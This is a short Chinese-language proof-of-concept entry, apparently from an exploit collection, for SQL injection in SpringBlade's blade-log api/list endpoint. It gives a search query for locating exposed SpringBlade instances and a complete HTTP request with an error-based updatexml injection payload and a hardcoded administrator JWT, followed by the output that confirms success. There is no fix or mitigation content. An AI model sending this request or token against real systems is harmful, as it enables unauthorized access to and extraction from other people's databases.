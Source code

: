 # SpringBlade api-list存在SQL注入漏洞

# 一、漏洞简介
SpringBlade api-list存在SQL注入漏洞，攻击者利用该漏洞进行SQL注 入攻击

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/wySOnzT0xKrb1lCv/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-230326.png)

# 四、漏洞复现
```java
GET /api/blade-log/api/list?updatexml(1,concat(0x7e,111*111,0x7e),1)=1 HTTP/1.1
Host: 
Blade-Auth:	eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJpc3N1c2VyIiwiYXVkIjoiYXVkaWVuY2UiLCJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwidXNlcl9pZCI6IjExMjM1OTg4MjE3Mzg2NzUyMDEiLCJyb2xlX2lkIjoiMTEyMzU5ODgxNjczODY3NTIwMSIsInVzZXJfbmFtZSI6ImFkbWluIiwib2F1dGhfaWQiOiIiLCJ0b2tlbl90eXBlIjoiYWNjZXNzX3Rva2VuIiwiZGVwdF9pZCI6IjExMjM1OTg4MTM3Mzg2NzUyMDEiLCJhY2NvdW50IjoiYWRtaW4iLCJjbGllbnRfaWQiOiJzd29yZCIsImV4cCI6MTc5MTU3MzkyMiwibmJmIjoxNjkxNTcwMzIyfQ.wxB9etQp2DUL5d3-VkChwDCV3Kp-qxjvhIF_aD_beF_KLwUHV7ROuQeroayRCPWgOcmjsOVq6FWdvvyhlz9j7A
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
```

![1716303401430-b9efceb6-bca4-420d-81f8-f8ecd3220f3c.png](./img/wySOnzT0xKrb1lCv/1716303401430-b9efceb6-bca4-420d-81f8-f8ecd3220f3c-181020.png)

```java
12321
```



> 更新: 2024-12-13 17:10:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bxhqc6lec9obt7lg>